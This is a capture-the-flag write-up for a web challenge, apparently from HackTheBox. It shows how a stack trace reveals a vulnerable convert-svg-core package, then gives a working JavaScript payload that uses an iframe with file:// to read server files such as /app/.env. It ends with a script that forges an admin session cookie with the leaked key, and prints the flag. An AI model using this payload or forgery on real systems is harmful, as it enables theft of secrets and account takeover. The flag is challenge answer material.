 Register an account. (While people likely have tried "admin" as the username here, I didn't do that)

After pressing "Export TadPole Samples", the server returned an error with the *stack trace*.

```
TypeError: Cannot read properties of null (reading 'indexOf')
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)
    at /app/routes/index.js:61:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:286:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:348:12)
```

This is very bad as **important information about the source code and dependencies can be leaked**, more specifically:
- The package convert-svg-core is used, and from [Snyk](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785) we can confirm that it is susceptible to *directory traveral* attacks, which means that I could access arbitrary file on the system allowed by the program's privilege.
- The error occurred at /app/routes/index.js.

To pull off the vuln, I created a simple helper function. Additionally, I increased the SVG's height to show more content as well as added a white background so that the images can be better viewed across platforms.
```
let doPayload = p => fetch(`/api/export`, {
		method: 'POST',
		headers: {
			'Content-Type': 'application/json',
		},
		body: JSON.stringify({
			svg: `<svg-dummy></svg-dummy>
<iframe src="file://${p}" width="100%" height="1500px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1500" xmlns="http://www.w3.org/2000/svg">
  <rect fill="white" width="100%" height="100%"/>
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>`
		}),
	})
	.then((response) => response.json())
		.then((data) => {
			if (data.hasOwnProperty('png')) {
				window.open(data.png);
			}
		})
	.catch((error) => {
		console.log(error);
	});
```

with `doPayload('/app/routes/index.js')` we get the page source code: (image cropped)
![image](https://user-images.githubusercontent.com/26480299/169437385-b7141003-e35e-4335-ae6f-741fabd101cf.png)

The following files should also be checked:
- /app/package.json
- /app/index.js
- /app/database.js
- /app/.env

From that we know that:
- `Cookie-parser` is used.
- the key used in cookie-parser
- the admin name is indeed, "admin"

Cookie-parser stores both the session content and the cookie signature client-side.

![image](https://user-images.githubusercontent.com/26480299/169439066-b221f8d8-56e5-4f77-88a6-25e8363ebae6.png)
```
> atob("eyJ1c2VybmFtZSI6InRlc3QifQ==")
< '{"username":"test"}'
```

Usually cookies will store the expiry date, and an additional store will be used at server-side as well, but since this is a CTF, we can impersonate admin with the leaked key. I re-created the environment and created the admin session cookie.
```
const express      = require('express');
const session      = require('cookie-session');
const app          = express();
const cookieParser  = require('cookie-parser');
const nunjucks     = require('nunjucks');

app.use(express.json({limit: '2mb'}));
app.use(cookieParser());

require('dotenv').config({path: '/app/.env'})
app.use(session({
  name: 'session',
  keys: [process.env.SESSION_SECRET_KEY]
}))

nunjucks.configure('views', {
  autoescape: true,
  express: app
});

app.all('*', (req, res) => {
  req.session.username = 'admin';

  return res.status(200).send({
    message: 'auth success'
  });
});

(async () => {
  app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
Log out and change the cookies.
![image](https://user-images.githubusercontent.com/26480299/169443927-b968b500-ed3e-47ec-8a1c-7d1ad0a8b033.png)

**Flag: HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}**

Remark: Someone has suggested that [Cookie Monster](https://www.npmjs.com/package/@digital-interruption/cookie-monster) can also be used but I haven't tried that.
